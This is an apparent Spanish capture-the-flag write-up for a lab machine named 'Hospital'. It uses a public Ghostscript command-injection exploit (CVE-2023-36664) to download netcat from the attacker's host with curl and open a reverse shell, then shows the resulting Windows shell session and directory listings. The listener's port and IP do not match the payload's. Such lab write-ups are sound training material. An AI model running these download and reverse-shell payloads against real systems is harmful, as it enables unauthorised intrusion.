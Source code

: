 obteniendo el password

de esta forma podemos ingresas a https://hospital.htb

ingresamos el usuario y contraseNa que tenemos

ingresamos al buzon de entrada y vemos algo referente Ghostscript

damos una busqueda en google refrnte al tema y vemos una vulnerabilidad 
https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection.git

❯ python3 CVE_2023_36664_exploit.py --inject --payload "curl 10.10.14.110:8000/nc64.exe -o nc.exe" --filename file.eps

❯ python3 -m http.server

❯ python3 CVE_2023_36664_exploit.py --inject --payload "nc.exe 10.10.14.110 1111 -e cmd.exe" --filename file.eps

❯ nc -nlvp 1111


❯ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.107] from (UNKNOWN) [10.10.11.241] 6114
Microsoft Windows [Version 10.0.17763.4974]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\drbrown.HOSPITAL\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 7357-966F

 Directory of C:\Users\drbrown.HOSPITAL\Documents

12/25/2023  11:34 PM    <DIR>          .
12/25/2023  11:34 PM    <DIR>          ..
10/23/2023  02:33 PM               373 copy.bat
10/23/2023  02:33 PM               373 ghostscript.bat
12/25/2023  11:31 PM            45,272 nc.exe
               3 File(s)         46,018 bytes
               2 Dir(s)   4,100,231,168 bytes free

C:\Users\drbrown.HOSPITAL\Documents>cd ../
cd ../

C:\Users\drbrown.HOSPITAL>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 7357-966F

 Directory of C:\Users\drbrown.HOSPITAL

11/13/2023  09:40 PM    <DIR>          .
11/13/2023  09:40 PM    <DIR>          ..
11/13/2023  09:40 PM    <DIR>          .cache
10/26/2023  11:24 PM    <DIR>          3D Objects
10/26/2023  11:24 PM    <DIR>          Contacts
10/26/2023  11:24 PM    <DIR>          Desktop
12/25/2023  11:34 PM    <DIR>          Documents
12/26/2023  05:41 PM    <DIR>          Downloads
10/26/2023  11:24 PM    <DIR>          Favorites
10/26/2023  11:24 PM    <DIR>          Links
10/26/2023  11:24 PM    <DIR>          Music
10/26/2023  11:24 PM    <DIR>          Pictures
10/26/2023  11:24 PM    <DIR>          Saved Games
10/26/2023  11:24 PM    <DIR>          Searches
10/26/2023  11:24 PM    <DIR>          Videos
               0 File(s)              0 bytes
              15 Dir(s)   4,100,231,168 bytes free
